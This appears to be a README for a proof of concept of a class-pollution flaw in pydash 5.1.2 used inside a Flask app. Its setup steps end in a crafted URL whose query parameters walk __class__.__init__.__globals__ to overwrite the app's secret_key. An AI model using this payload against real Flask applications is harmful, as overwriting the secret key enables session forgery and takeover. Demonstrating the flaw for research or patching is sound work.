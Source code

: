 
**Instructions for pydash 5.1.2 and flask PoC**

**Prerequisites:** python3.x, pip

* create a python virtualenv if you don't want to taint your python installation with vulnerable packages, for example:
    1. python3 -m venv env
    2. source /env/bin/activate
* install vulnerable packages in the environment
    1. pip install -r requirements.txt 
* run the proof of concept
    1. python3 pydash_poc_5.1.2.py
* run flask proof of concept
    1. flask --debug --app flask_poc.py run
    2. open browser and enter following url: http://127.0.0.1:5000/?path=__class__.__init__.__globals__.app.secret_key&val=\'1337\'
    3. result will be printed in the terminal window running the flask server
